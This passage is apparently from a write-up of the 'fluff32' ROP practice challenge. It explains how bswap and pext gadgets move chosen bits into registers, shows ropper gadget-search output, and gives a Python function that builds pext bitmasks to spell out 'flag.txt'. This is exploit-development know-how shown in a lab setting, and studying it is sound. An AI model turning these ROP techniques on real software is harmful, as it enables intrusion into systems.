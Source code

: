 Luckily we have gadget `8048558` which will let us load data into `ecx` before switching endianness with `bswap`. So we just need to add the address in our payload in big-endian form - no big deal.

The gadget starting from `8048543` is a bit more complex. The `pext` instruction will essentially use `eax` (loaded from `ebp` beforehand) as a bitmask, to pick bits from `ebx` (`0xb0bababa`) similarly to a bitwise `AND` **however**, the chosen bits get loaded into `edx` in **contiguous order**. So if the mask had 20 "1 bits", then the 20 least significant bits of `edx` would be loaded with the corresponding bits from `ebx`, and the 12 more significant bits would be zeros.

Now we just need a gadget to get controlled data into `ebp`.
`ropper -f fluff32 --search 'pop ebp'`:
```
[INFO] File: fluff32
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485bb: pop ebp; ret;
```

Now we know what to do, the hardest part is that we need to generate some bitmask that gets loaded into `ebp`/`eax` which has 8 bits set that will extract the correct bits from `0xb0bababa` during the `pext` instruction so we can retrieve the correct characters to build up our "flag.txt" string.

I made the following function to generate this mask:
```python
BITS_IN_CHAR = 8
BITS_IN_32BIT_REG = 32
# "c" is an 8 bit character
# "data" is a 32 bit integer (0xb0bababa will be the arg)
def generate_mask(c, data):
    c = ord(c)
    mask = 0 # our resulting mask to be generated
    # c_i is index for character bit from the lsb side
    # d_i is index for the data bit from the lsb side
    c_i = d_i = 0

    # we will only need to set 8 mask bits to 1s, for each
    # bit in the char.
    # for safety our loop also shouldn't run beyond
    # the length of a 32 bit integer
    while c_i < BITS_IN_CHAR and d_i < BITS_IN_32BIT_REG:
        # generate some temp masks for the current bit
        # in our char and data.
        c_bit = 1 << c_i
        d_bit = 1 << d_i

        # we will only set 8 mask bits, for each bit
        # of the character.
        # this will be whenever we find a char bit
        # matching the data bit (both 1s or both 0s),
        # because we know that whenever we encounter this 
        # bit in the data, we want to keep it as part of
        # the final char output of `pext`

        if (c & c_bit) and (data & d_bit):
            mask |= d_bit
            c_i += 1
        elif not ((c & c_bit) or (data & d_bit)):
            mask |= d_bit
            c_i += 1
        d_i += 1

    return mask
```
